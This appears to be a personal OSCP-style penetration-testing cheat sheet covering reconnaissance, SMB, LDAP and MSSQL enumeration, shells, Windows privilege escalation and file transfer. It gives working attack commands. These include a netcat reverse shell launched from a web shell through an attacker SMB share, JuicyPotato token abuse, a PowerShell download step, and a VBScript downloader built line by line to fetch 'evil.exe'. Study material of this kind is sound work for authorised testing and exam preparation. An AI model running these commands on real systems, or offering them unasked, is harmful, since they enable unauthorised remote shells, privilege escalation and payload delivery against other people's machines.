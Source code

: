 # Recon

Network - Nmap
```
$ nmap -v -sSV -p [port1, port2] -Pn [host] -oN [filename]   # verbose, syn-stealth, svc versions, target ports, no-ping,
$ nmap -v -sUV -p [port1, port2] -Pn [host] -oN [filename]   # UDP
```

Web - Gobuster
```
$ gobuster dir -u [target] -w ~/OSCP/SecLists/Discovery/Web-Content/[wordlist]
```


### FTP [21 TCP]


### SMB/Samba [139, 445 TCP]

Automated enum.
```
$ python3 ~/OSCP/Tools/enum4linux-ng/enum4linux-ng.py [target] 
```

Check for SMB vulnerabilities.
```
$ nmap --script smb-vuln-* [target]
```

Enumerate SMB.
```
$ smbclient --no-pass -L //10.11.1.31         # list shares
$ smbclient --no-pass \\\\[target]\\[share]   # connect to a share

$ smbmap -u "guest" -R [share] -H 10.11.1.31  # recursively list files in a folder
$ smbget -R smb://[host]/share                # recursively get files from target share/dir
```



### LDAP [389,636 etc. etc.]

https://book.hacktricks.xyz/pentesting/pentesting-ldap

Enumerate LDAP.
```
$ nmap -n -sV --script "ldap* and not brute" [target]
```


### MS SQL [1433]
```
# Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
$ python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP>
$ sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```


## Initial Exploitation

### Shells

Web shell + SMB exec
```
# Setup local share e.g. python3 ../smbserver.py EVILSHARE .
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py [sharename] [/path/to/share] 

# Execute netcat reverse shell within webshell
> \\[host]\share\nc.exe [host] [port] -e cmd.exe
```

Have a web shell? Check if server can reach you:
```
$ sudo tcpdump -i tun0 -n icmp -v
```

Execute PowerShell script non-interactively:
```
$ powershell -executionpolicy bypass ".\rshell.ps1 arg1 arg2"
```


## Linux Privilege Escalation


## Windows Privilege Escalation

### Service Permissions

```
# windows/winXP
> icacls/cacls [fullpath/to/service]

# powershell
PS> Get-Acl
PS> Get-ChildItem | Get-Acl
```

### File & Folder Permissions

### Access Token Abuse

https://www.notion.so/CHEATSHEET-ef447ed5ffb746248fec7528627c0405#5cedd479d1c1429e8018211371eec1ad


JuicyPotato - `SeImpersonatePrivilege` or `SeAssignPrimaryPrivilege` is enabled.
```
> whoami /privs
> JuicyPotato.exe -p C:\inetpub\wwwroot\nc.bat -l 443 -t * -c
```

## File Transfer Methods

### Linux.
```
```

### Windows.

Powershell
```
> Powershell -c (New-Object Net.WebClient).DownloadFile('http://[host]:[port]/[file]', '[remotefile]')
```

Wget -> cscript
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

# After you've created wget.vbs
cscript wget.vbs http://[host]/evil.exe evil.exe
```

SMB
```
> python3 /usr/share/doc/python3-impacket/examples/smbserver.py [sharename] [/path/to/share]  # setup local share
> XXX
```


## Password Cracking

Online cracker: https://crackstation.net/

